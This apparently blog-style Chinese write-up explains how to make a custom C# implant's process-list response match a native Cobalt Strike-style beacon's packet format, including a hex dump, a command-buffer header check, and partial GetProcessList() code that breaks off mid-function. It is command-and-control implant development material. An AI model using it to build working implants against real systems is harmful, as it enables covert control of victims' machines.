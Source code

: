 另一个就是返回的数据包，正确的数据顺序为：

```php
processName, parentProcessId, processId, processArch, processOwner, sessionId
```

除此之外，PS数据的回传还存在一个校验，以原生beacon回传的ps数据为例：

```php
00000000: 00 00 00 03 00 00 47 7A  00 00 00 16 00 00 00 24  ......Gz........
00000010: 0A 53 79 73 74 65 6D 20  49 64 6C 65 20 50 72 6F  .System Idle Pro
00000020: 63 65 73 73 09 30 09 30  09 78 36 34 09 09 30 0A  cess.0.0.x64..0.
00000030: 53 79 73 74 65 6D 09 30  09 34 09 78 36 34 09 09  System.0.4.x64..
00000040: 30 0A 09 34 09 32 30 34  09 78 36 34 09 09 30 0A  0..4.204.x64..0.
00000050: 09 34 09 32 38 30 09 78  36 34 09 09 30 0A 09 34  .4.280.x64..0..4
00000060: 09 31 30 38 34 09 78 36  34 09 09 30 0A 63 6F 6D  .1084.x64..0.com
00000070: 2E 64 6F 63 6B 65 72 2E  62 75 69 6C 64 2E 65 78  .docker.build.ex
00000080: 65 09 32 35 32 34 38 09  31 31 37 36 09 78 36 34  e.25248.1176.x64
```

在前16字节中，使用了接收到的CommandBuff放在了最后四字节中作为符号：

```php
Cmd buffer bytes: [0 0 0 36]
后四个字节：0x00000024
0x24 = 36，符合发送的指令buff，因此数据头后四个字节为cmdbuff
```

因此更改后的`GetProcessList()`函数内容为：

```php
public static byte[] GetProcessList(byte[] pBuf)
{
    var processorArchitecture = GetArchitecture();
    Process[] processes = Process.GetProcesses().OrderBy(P => P.Id).ToArray();

    string sRes = "";
    foreach (Process process in processes)
    {
        int processId = process.Id;
        int parentProcessId = GetParentProcess(process);
        string processName = process.ProcessName;
        string processPath = string.Empty;
        int sessionId = process.SessionId;
        string processOwner = GetProcessOwner(process);
        Win32.Kernel32.Platform processArch = Win32.Kernel32.Platform.Unknown;

        if (parentProcessId != 0)
        {
            try
            {
                processPath = process.MainModule.FileName;
            }
            catch (System.ComponentModel.Win32Exception) { }
        }

        if (processorArchitecture == Win32.Kernel32.Platform.x64)
        {
            processArch = IsWow64(process) ? Win32.Kernel32.Platform.x86 : Win32.Kernel32.Platform.x64;
        }
        else if (processorArchitecture == Win32.Kernel32.Platform.x86)
        {
            processArch = Win32.Kernel32.Platform.x86;
        }
        else if (processorArchitecture == Win32.Kernel32.Platform.IA64)
        {
            processArch = Win32.Kernel32.Platform.x86;
```